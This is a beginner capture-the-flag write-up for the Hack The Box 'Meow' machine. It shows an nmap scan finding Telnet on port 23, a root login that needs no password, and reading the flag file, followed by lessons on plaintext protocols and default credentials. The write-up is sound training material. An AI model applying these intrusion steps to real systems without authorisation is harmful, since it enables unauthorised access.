



# Meow

**Platform:** Hack The Box (Starting Point)
**Difficulty:** Very Easy
**Completed Date:** 2026-06-03

## 📋 Summary

Meow is an introductory Hack The Box Starting Point machine designed to teach basic service enumeration and remote access. The goal is to identify the exposed service, connect to the target, and obtain the flag.

## 🎯 Skills Learned

* Service enumeration with Nmap
* Identifying Telnet services
* Connecting to remote systems using Telnet
* Understanding the risks of insecure authentication
* Basic Linux command-line navigation

## 🔍 Reconnaissance

A service version scan was performed against the target:

```bash
nmap -sV <target-ip>
```

### Results

```text
23/tcp open  telnet
```


The scan revealed that Telnet was running on port 23.

## 🚀 Exploitation

Connected to the target using Telnet:

```bash
telnet <target-ip>
```


Authenticated with the username:

```text
root
```

Successfully gained access to the system.

## 🏁 Flag Retrieval

After obtaining shell access, basic Linux commands were used to locate and read the flag.

```bash
ls
cat flag.txt
```


The flag was successfully retrieved.

## 📚 Lessons Learned

* Telnet transmits data in plaintext and should not be used in modern environments.
* Enumeration is a critical first step in any penetration test.
* Weak or default credentials can lead to unauthorized access.
* Even simple machines help build familiarity with common tools and workflows.

## 🛠️ Tools Used

* Nmap
* Telnet
* Linux Command Line


## 🔗 Machine Information

This machine is part of the Hack The Box Starting Point series and is intended for beginners learning basic enumeration and remote access concepts.